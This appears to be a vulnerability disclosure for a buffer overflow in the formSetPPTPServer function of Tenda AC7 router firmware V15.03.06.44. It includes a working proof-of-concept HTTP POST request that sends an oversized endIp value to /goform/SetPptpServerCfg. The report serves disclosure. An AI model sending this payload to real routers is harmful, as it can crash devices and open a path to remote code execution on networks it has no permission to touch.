


# Information


**Vendor of the products:**   Shenzhen Tenda Technology Co.,Ltd.

**Vendor's website:**https://www.tenda.com.cn/

**Reported by:** Chen Bo ([2804894416@qq.com](mailto:2804894416@qq.com))

**Affected products:** AC7

**Affected firmware version:** V15.03.06.44

**Firmware download address:** [AC7 V1.0 升级软件_腾达(Tenda)官方网站](https://tenda.com.cn/material/show/102776)

# Overview

Tenda 'AC7 V15.03.06.44' firmware has a buffer overflow vulnerability in the formSetPPTPServer function, where the function 'sscanf' copies the startIp and endIp string contents to pptp_server_end_ip and pptp_server_start_ip without bounds checking, resulting in a buffer overflow and overwriting the memory area behind the array, This security vulnerability can be triggered by a crash or even remote code execution.

# Vulnerability details

The handler function `formSetPPTPServer` is registered in the `common_register` function.



There is a buffer overflow here



# POC

```
POST /goform/SetPptpServerCfg HTTP/1.1
Host: 192.168.102.145
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Accept: text/plain, */*; q=0.01
X-Requested-With: XMLHttpRequest
Referer: http://192.168.102.145/main.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: password=stymji
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 542

startIp=192.168.102.145&endIp=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```

